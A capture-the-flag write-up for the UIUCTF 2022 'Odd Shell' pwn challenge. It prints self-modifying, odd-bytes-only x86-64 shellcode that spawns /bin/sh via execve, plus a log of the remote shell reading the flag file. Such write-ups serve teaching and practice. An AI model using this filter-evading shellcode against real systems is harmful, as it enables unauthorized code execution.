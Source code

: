 ```yaml
---
title: Writeup - Odd Shell (UIUCTF 2022)
date: 2022-11-20 21:46:09
tags: test
---
```


# UIUCTF 2022 - Odd Shell Writeup
- Type - pwn
- Name - Odd Shell
- Points - 107

## Description
```markdown
O ho! You found me! I have a display of oddities available to you!

$ nc odd-shell.chal.uiuc.tf 1337

author: Surg
```

## Writeup
I decided to spawn a shell using the `syscall` approach (see the entry for `execve` in the [Linux System Call Table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) to see how I had to set registers). I used an [online x86/x64 assembler](https://defuse.ca/online-x86-assembler.htm#disassembly) to test my assembly commands and ensure they were all odd. Since some important instructions were only even, I took a dynamic approach, where I had the instructions change future instructions.

For example, if I wanted the instruction `xor rsi,rsi` to zero out the `rsi` register, the assembly would be `48 31 f6`. Since both `48` and `f6` were even, I modified them to odd instructions (`xor r13d,r14d`, which was `45 31 f5`), and then wrote instructions that added 3 to 45 and 1 to f6. This transformed `xor r13d,r14d` to `xor rsi,rsi`, then ran the instruction. I also stored the string `/bin/sh` at the beginning of the memory address provided for our shellcode, and copied that address from the `rdx` register. Register 15 (`r15`) was my main scratch register. 

Shellcode:
```assembly
### PUT "/bin/sh" AT BEGINNING OF INSTRUCTIONS ###
# move address for instruction start to r15
mov   r15,rdx

# create "nib/" (0x6d69612f) in rcx, then move to r15
mov   ecx,0x010d31b1
imul  ecx,ecx,0x69
add   ecx,0x7f
add   ecx,0x17
mov   DWORD PTR[r15],ecx

# shift r15 by 4 for next part of string
add   r15,3
add   r15,1

# create "\x00hs/" (0x0068732F) in rcx, then move to r15
mov   ecx,0x016973b5
sub   ecx,0x01010101
add   ecx,0x7b
mov   DWORD PTR[r15],ecx


### MOVE $rdx into $rdi ###
mov    r15,rdx
add    r15,0x3b
add    r15,0x1
add    DWORD PTR[r15],0x3
mov    r15d,r10d


### PUT 0 INTO $rsi ###
# add 3 to first part of XOR
mov    r15,rdx
add    r15,0x55
add    DWORD PTR[r15],0x3

# add 1 to third part of XOR
mov    r15,rdx
add    r15,0x57
add    DWORD PTR[r15],0x1

xor    r13d,r14d          # (45 31 f5) --> xor rsi,rsi (48 31 f6)


### PUT 0 INTO $rdx ###
# add 3 to first part of XOR
mov    r15,rdx
add    r15,0x75
add    r15,0x1
add    DWORD PTR[r15],0x3

# add 1 to third part of XOR
mov    r15,rdx
add    r15,0x77
add    r15,0x1
add    DWORD PTR[r15],0x1

xor    r9d,r10d          # (45 31 d1) --> xor rdx,rdx (48 31 d2)


### PUT 59 INTO $rax ###
# random instruction for offset
xor    r13,r13

# add 7 to first part of XOR
mov    r15,rdi
add    r15,0x7f
add    r15,0x1b
add    DWORD PTR[r15],0x7

# subtract 1 from third part of XOR
mov    r15,rdi
add    r15,0x7f
add    r15,0x1d
sub    DWORD PTR[r15],0x1

add    r9d,0x3b          # (41 83 c1 3b) --> add rax,0x3b (48 83 c0 3b)


### SYSCALL ###
syscall
```

I then put this shellcode into a Python script with pwntools ([odd.py](odd.py)) and ran it! Results:

```bash
$ python3 odd.py REMOTE
[+] Opening connection to odd-shell.chal.uiuc.tf on port 1337: Done
[*] Switching to interactive mode
Display your oddities:
$ whoami
user
$ cat /flag
uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}
$
[*] Closed connection to odd-shell.chal.uiuc.tf port 1337
```

**Flag:** `uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}`